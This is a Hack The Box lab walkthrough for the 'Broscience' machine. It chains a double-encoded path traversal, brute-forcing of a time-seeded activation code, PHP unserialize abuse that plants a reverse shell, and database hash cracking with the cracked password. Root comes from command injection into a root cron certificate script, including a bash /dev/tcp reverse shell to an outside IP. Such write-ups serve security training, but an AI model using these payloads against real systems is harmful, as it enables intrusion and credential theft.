



# Broscience machine HTB

## `hints`

### `foothold`
- basic enumeration - check **all files**, check **params**, check two times, that is **double** ;) 
- grab em all
- sweep for common vulns on features 
### `user`
- `db`?
### `root`
- (0) process


# `walkthrough`

## `path` file inclusion filter bypass

- after performing dirsearch on the machine, able to find `/includes/` with some interesting files


<br>



<br>

- image fetching: `https://broscience.htb/includes/img.php?path=../../../../../etc/passwd`
  - got back **Error:** attack detected
  - single encoding failed, double encoding worked, got back 188B of passwd file
<br>


<br>



<br>

## `start fetching files present on urls`

<br>

got all files using `fetch.py`, i like colors
------------------------------
```
/includes
  |-db_connect.php
  |-header.php
  |-img.php
  |-navbar.php
  |-utils.php
index.php
register.php
login.php
logout.php
exercise.php
user.php
```

<br>



<br>

## tried to register


<br>

- tried to register got no email back
- checking the code we found


<br>

`/includes/utils.php`
```php

function generate_activation_code() {
    $chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
    srand(time());
    $activation_code = "";
    for ($i = 0; $i < 32; $i++) {
        $activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
    }
    return $activation_code;
}
```

<br>

`/register.php`
```php
$activation_code = generate_activation_code();

...

$res = pg_execute($db_conn, "create_user_query", array($_POST['username'], md5($db_salt . $_POST['password']), $_POST['email'], $activation_code));

// TODO: Send the activation link to email
$activation_link = "https://broscience.htb/activate.php?code={$activation_code}";

$alert = "Account created. Please check your email for the activation link.";
```

## tried with a couple of timestamps manually but couldn't hit the activation code by feeding that time as seed `srand()`

<br>

`activation.py`  automated that process

- after many tries it finally got validated

<br>

  

<br>

## checking features

<br>

- `get_theme()` unserializes `user-prefs` cookie. 
- `UserPrefs` class is not too interesting. Nothing useful
- `Avatar` and `AvatarInterface` has more to offer

<br>

```php
class Avatar {
    public $imgPath;

    public function __construct($imgPath) {
        $this->imgPath = $imgPath;
    }

    public function save($tmp) {
        $f = fopen($this->imgPath, "w");
        fwrite($f, file_get_contents($tmp));
        fclose($f);
    }
}

class AvatarInterface {
    public $tmp;
    public $imgPath; 

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}


```


<br>


- `get_theme()`  gets called everywhere. e.g. `user.php`
- `file_get_contents` probably is able to read from endpoint
- built a server -->  `upload_server.py`

## `upload_server.py`


<br>

```sh
$ python3 upload_server.py &
$ python3 unsafe_unserialize.py /var/www/html/reverse_shell.php revshell
```

```sh
10.10.11.195 - - [22/Jan/2023 00:56:53] "GET /revshell HTTP/1.0" 200 -
10.10.11.195 - - [22/Jan/2023 00:56:53] "GET /revshell HTTP/1.0" 200 -
10.10.11.195 - - [22/Jan/2023 00:56:54] "GET /revshell HTTP/1.0" 200 -
```

<br>

- check if file got uploaded 

<br>


<br>

- open netcat
  
<br>

```sh
$ nc -lvnp 4444 # https://broscience.htb/reverse_shell.php
Listening on 0.0.0.0 4444
Connection received on 10.10.11.195 39598

```

we are in

## `user`

<br>

- we got credentials for the database 

```sh
$ psql -h localhost -p 5432 -U dbuser -d broscience -c "\copy (SELECT * FROM users) TO '/var/www/html/users.csv' WITH CSV HEADER"
```

- `hash` for bill = 13edad4932da9dbb57d9cd15b66ed104
- tried with bruteforcing with single world `php ./php/bruteforce.php 13edad4932da9dbb57d9cd15b66ed104`, no luck
- `hashcat` --> `iluvhorsesandgym`

`success`

<br>

## `root`

<br>

- with the help of `upload_server` and `pspy`, was able to grab information on cron executed every now and then
- renew_cert.sh

```sh
#!/bin/bash

if [ "$#" -ne 1 ] || [ $1 == "-h" ] || [ $1 == "--help" ] || [ $1 == "help" ]; then
    echo "Usage: $0 certificate.crt";
    exit 0;
fi

if [ -f $1 ]; then

    openssl x509 -in $1 -noout -checkend 86400 > /dev/null

    if [ $? -eq 0 ]; then
        echo "No need to renew yet.";
        exit 1;
    fi

    subject=$(openssl x509 -in $1 -noout -subject | cut -d "=" -f2-)

    country=$(echo $subject | grep -Eo 'C = .{2}')
    state=$(echo $subject | grep -Eo 'ST = .*,')
    locality=$(echo $subject | grep -Eo 'L = .*,')
    organization=$(echo $subject | grep -Eo 'O = .*,')
    organizationUnit=$(echo $subject | grep -Eo 'OU = .*,')
    commonName=$(echo $subject | grep -Eo 'CN = .*,?')
    emailAddress=$(openssl x509 -in $1 -noout -email)

    country=${country:4}
    state=$(echo ${state:5} | awk -F, '{print $1}')
    locality=$(echo ${locality:3} | awk -F, '{print $1}')
    organization=$(echo ${organization:4} | awk -F, '{print $1}')
    organizationUnit=$(echo ${organizationUnit:5} | awk -F, '{print $1}')
    commonName=$(echo ${commonName:5} | awk -F, '{print $1}')

    echo $subject;
    echo "";
    echo "Country     => $country";
    echo "State       => $state";
    echo "Locality    => $locality";
    echo "Org Name    => $organization";
    echo "Org Unit    => $organizationUnit";
    echo "Common Name => $commonName";
    echo "Email       => $emailAddress";

    echo -e "\nGenerating certificate...";
    openssl req -x509 -sha256 -nodes -newkey rsa:4096 -keyout /tmp/temp.key -out /tmp/temp.crt -days 365 <<<"$country
    $state
    $locality
    $organization
    $organizationUnit
    $commonName
    $emailAddress
    " 2>/dev/null

    /bin/bash -c "mv /tmp/temp.crt /home/bill/Certs/$commonName.crt"
else
    echo "File doesn't exist"
    exit 1;
fi
```

- this baby is running as root
- if we are able to change `$commonName` we can get a reverse shell or `chmod +s /usr/bin/bash
- by creating a new file, via the payload open ssl script --> /cert/payload_cert.sh


```sh
#!/bin/bash

openssl req -x509 -sha256 -nodes -newkey rsa:4096 -keyout ./broscience.key -out ./broscience.crt -days 1 <<<"AU
    Victoria
    Melbourne
    Broscience
    Broscience
    $1
    Broscience
    " 2>/dev/null
```
```sh
$ /cert/payload_cert.sh '$(sh -i >& /dev/tcp/10.10.14.172/4445 0>&1)
```

`success`

